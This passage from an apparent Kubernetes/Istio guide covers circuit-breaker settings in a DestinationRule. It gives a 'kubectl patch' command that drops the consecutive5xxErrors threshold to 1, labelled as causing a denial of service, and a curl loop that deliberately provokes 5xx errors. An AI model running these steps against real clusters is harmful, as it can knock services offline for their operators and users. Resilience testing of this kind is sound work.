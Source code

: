 Examine the output of the `kubectl get destinationrule` command (from step 3).  The `outlierDetection` section contains the following parameters, which define the circuit breaker behavior:

    *   `consecutiveErrors`:  The number of consecutive errors before the circuit breaker trips.
    *   `interval`: The interval at which outlier detection is performed.
    *   `baseEjectionTime`:  The minimum time for which an instance will be ejected.
    *   `maxEjectionPercent`: The maximum percentage of instances that can be ejected at any given time.
    *   `minHealthPercent`:  Percentage of healthy hosts before considering circuit breaker
    *   `http`: The HTTP specific settings related to HTTP error codes.

Example:

```yaml
apiVersion: networking.istio.io/v1beta1
kind: DestinationRule
metadata:
  name: <target-application>
  namespace: default
spec:
  host: <target-application>
  trafficPolicy:
    connectionPool:
      http:
        http1MaxPendingRequests: 1
        maxRequestsPerConnection: 1
    outlierDetection:
      consecutive5xxErrors: 3 # Number of 5xx errors to trigger circuit break
      interval: 1s # Evaluation interval
      baseEjectionTime: 30s # Ejection duration
      maxEjectionPercent: 100 # Max percentage of instances ejected
```

5. **Lower the `consecutive5xxErrors` threshold to trigger a premature circuit break (Denial of Service):**

```bash
kubectl patch destinationrule -n default <target-application> --type merge -p '{"spec":{"trafficPolicy":{"outlierDetection":{"consecutive5xxErrors": 1}}}}'
```

*   **Explanation:** This command uses `kubectl patch` to modify the DestinationRule.  It sets the `consecutive5xxErrors` threshold to `1`. This means that only one 5xx error is needed for the circuit breaker to trip.
*   **Expected Output:** `destinationrule.networking.istio.io/<target-application> patched`
*   **Why:** Lowering the threshold makes it easier to trigger the circuit breaker, potentially leading to a denial of service.

6. **Generate 5xx errors:**

This step depends on the application.  For example, you might send invalid requests, overload the application, or trigger a known error condition.  A simple way to generate 500 errors (if the application supports it) would be sending very large payloads or malformed requests to specific API endpoints.  Use `curl`, `wrk`, `hey` or similar tools for load testing.

```bash
for i in $(seq 1 5); do curl -I http://<target-application>.<namespace>.svc.cluster.local:<port>/invalid-endpoint ; sleep 1 ; done
```
* **Explanation**: This example uses `curl` in a loop to make requests to a deliberately invalid endpoint. The `-I` flag requests only the headers, speeding up the process.
* **Expected Output**:  HTTP 500 (or similar error) responses within the loop.
* **Why**: Intentionally induce the error condition for circuit breaker testing.

